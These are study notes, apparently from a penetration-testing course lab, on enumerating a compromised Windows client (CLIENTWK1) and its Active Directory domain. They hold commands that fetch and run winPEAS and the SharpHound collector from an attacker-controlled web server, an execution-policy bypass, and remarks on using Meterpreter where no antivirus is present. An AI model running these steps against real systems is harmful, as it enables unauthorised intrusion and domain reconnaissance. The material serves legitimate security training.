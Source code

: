 ### Situational Awareness

Scenario:
- We'll attempt to gain situational awareness on the CLIENTWK1 system and the internal network. First, we'll perform local enumeration on CLIENTWK1 to obtain an overview of the system and identify potentially valuable information and data. Then, we'll enumerate the domain to discover users, computers, domain administrators, and potential vectors for lateral movement and privilege escalation.
	- [Note]:
		- `For this Learning Unit, we'll not explicitly store every result in our workspace directory on Kali. However, to get used to the documenting process you should create notes of all findings and information while following along.`

Start:
- Let's copy the 64-bit winPEAS executable to the directory served by the Python3 web server
- On CLIENTWK1, we'll change the current directory to the home directory for marcus and download winPEAS from our Kali machine. Once downloaded, we'll launch it.
	- `cd C:\Users\marcus`
	- `iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe`
	- `.\winPEAS.exe`
- *Basic System Information*
	- As we have learned in the course, winPEAS may falsely detect Windows 11 as Windows 10, so let's manually check the operating system with **systeminfo**.
		- `systeminfo`
[Note]:
	- `With experience, a penetration tester will develop a sense for which information from automated tools should be double-checked.`
- *AV section*
	- No AV has been detected. This will make the use of other tools and payloads such as Meterpreter much easier.
- *Network Ifaces and known hosts and DNS cached*
	- Listing 45 shows that the DNS entries for **mailsrv1.beyond.com** (172.16.6.254) and **dcsrv1.beyond.com** (172.16.6.240) are cached on CLIENTWK1. Based on the name, we can assume that DCSRV1 is the domain controller of the **beyond.com** *domain*.
	- Furthermore, because MAILSRV1 is detected with the internal IP address of 172.16.6.254 and we enumerated the machine from an external perspective via 192.168.50.242, we can safely assume that this is a dual-homed host.
- As we did for credentials, let's create a text file named **computer.txt** in **/home/kali/beyond/** to document identified internal machines and additional information about them.
	- Example:
		- 
```
172.16.6.240 - DCSRV1.BEYOND.COM
-> Domain Controller

172.16.6.254 - MAILSRV1.BEYOND.COM
-> Mail Server
-> Dual Homed Host (External IP: 192.168.50.242)

172.16.6.243 - CLIENTWK1.BEYOND.COM
-> User _marcus_ fetches emails on this machine
```
- Reviewing the rest of the winPEAS results, we don't find any actionable information to attempt a potential privilege escalation attack. However, we should remind ourselves that we are in a simulated penetration test and not in a CTF lab environment. Therefore, it is not necessary to get administrative privileges on every machine.
- Let's start enumerating the AD environment and its objects.
- we'll use *BloodHound* with the *SharpHound.ps1* collector, which we discussed in the *Active Directory Introduction and Enumeration Module*.
- First, we'll copy the PowerShell collector to /home/kali/beyond in a new terminal tab to serve it via the Python3 web server on port 8000.
	- `cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .`
- download the PowerShell script on the target machine
	- `iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1`
	- `powershell -ep bypass`